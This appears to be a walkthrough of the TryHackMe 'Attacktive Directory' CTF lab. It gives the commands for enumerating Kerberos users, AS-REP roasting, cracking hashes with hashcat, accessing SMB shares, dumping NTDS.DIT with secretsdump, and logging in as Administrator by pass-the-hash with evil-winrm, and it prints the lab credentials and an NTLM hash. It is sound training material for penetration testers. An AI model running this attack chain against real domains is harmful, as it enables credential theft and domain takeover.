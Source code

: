 ```yaml
---
layout: default
---
```


# TryHackMe - Attacktive Directory

This post is a writeup of the TryHackMe Attacktive Directory CTF. In this CTF we'll be Enumerating, Exploiting, and Escalating Privileges on a vunlnerable Domain Controller. 

Before we begin, we need to download a few tools per the room requirements. 

Those being impacket, bloodhound, and neo4j. 

To download and install run the following commands

```
git clone https://github.com/SecureAuthCorp/impacket.git
```
```
pip3 install -r requirements.txt
```
```
python3 ./setup.py install
```

To install bloodhound and neo4j run the following commands

```
apt install bloodhound neo4j
```

After these have been installed make sure to update your Kali VM
```
apt update
```

## Enumeration - Welcome to Attacktive Directory

Questions 

1. What tool will allow us to enumerate port 139/445?
2. What is the NetBIOS-Domain Name of the Machine?
3. What invalid TLD do people commonly use for their Active Directory Domain?

The first question is pretty easy. A simple google search of 'enumeration with kali linux' will give us the name of the tool installed in kali linux that can enumerate. 



For the second and third question we need to perform a nmap scan with the '-A' option. 





Pretty easy so far. 

## Enumeration - Enumerating Users via Kerberos



Questions 

1. What command within Kerbrute will allow us to enumerate valid usernames?
2. What notable account is discovered?
3. What is the other notable account?

According to the intro, the host is running Kerberos. We can also see from our nmap scan that port 88, port Kerberos uses, is open.  

The room recommends downloading the tool Kerbrute and downloading a user list and password list. 



Once eveything is download we are going to run the following command. 

```
./kerbrute_linux_amd64 userenum --dc TARGET IP -d spookysec.local userlist.txt
```

Here we can see a few interesting accounts that answer questions two and three. 

## Exploitation - Abusing Kerberos


Questions 

1. We have two user account that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
2. Looking at the Hashcat examples Wiki page, what type of Kerberos hash did we retrieve from the KDC?
3. What mode is the hash?
4. Now crack the hash with the modeified password list provided, what is the user accounts password?


In this section we are going to performing an ASREPRoasting attack with the user accounts we enumerated in the last section. 

Run the following command. 

```
python3 impacket/examples/GetNPUsers.py -dc-ip TARGET IP -usersfile USERS FILE spookysec.local/
```

This command will provide us the answer to question one. 

From we can navigate to the following webpage to find the answers to questions two and three. 
https://hashcat.net/wiki/doku.php?id=example_hashes

Armed with this information, let's use hashcat to crack the hash. 

Run the following command. 

```
hashcat -m 18200 HASH FILE passwordlist.txt
```

The password to the user account and the answer to question four is at the end of the hash.


## Enumeration - Back to the Basics

With the user's credentials, we can use them to enumerate shares.

1. What utility can we use to map remote SMB shares?
2. Which option will list shares?
3. How many remote shares is the server listing?
4. There is one particular share that we have access to that contains a text file. Which share is it?
5. What is the content of the file?
6. Decoding the contents of the file, wha tis the full contents?

Google searching 'Kali Linux SMB' will provide us with a few options on how to map SMB shares and the answers to questions one and two. 

The following page list the commands we'll be using. 

Run the following command to list the shares and get the answers to questions three. 
```
smbclient -L TARGET IP -U spookysec.local/svc-admin%management2005
```



Now that we have the list of shares. Let's try and connect to each of them and see if we find anything interesting.

Run the following command.

```
smbclient //TARGET IP/ADMIN$ -U svc-admin
```
For the first share we get an access denied. Let's try the second one. 


We can access the second share with an interesting txt file. Use 'more' to view the content of the file. With this information we can answer questions four and five.

Copy the string, throw it in CyberChef, and use the Magic function to decode it.


## Domain Privilege Escalation - Elvating Privileges within the Domain




Questions
1. What method allowed us to dump NTDS.DIT?
2. What is the Administrators NTLM hash?
3. What method of attack could allow us to authenticate as the user without the password?
4. Using a tool called Evil-WinRM what option will allow us to use a hash?


The intro mentions to use secretsdump.py to retrieve password hashes. 

Run the following command to get the hashes and the answers to questions one and two.

```
python3 impacket/examples/secretsdump.py -just-dc spookysec.local/backup:backup251786@TARGET IP
```

The answer to question 3 is pretty easy, if you don't know copy and paste it into Google.

Question four is asking us to use Evil-WinRM. Use the '-h' option to list the available features or go to the following webpage to get a detailed guide https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/ and the answer to the question. 


## Flag Submission 

Run the following command to execute the pass the hash attack and connect to the remote host. 

```
evil-winrm -i TARGET IP -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
From here navigate through the directory to find and submit the flags.











[back](./)
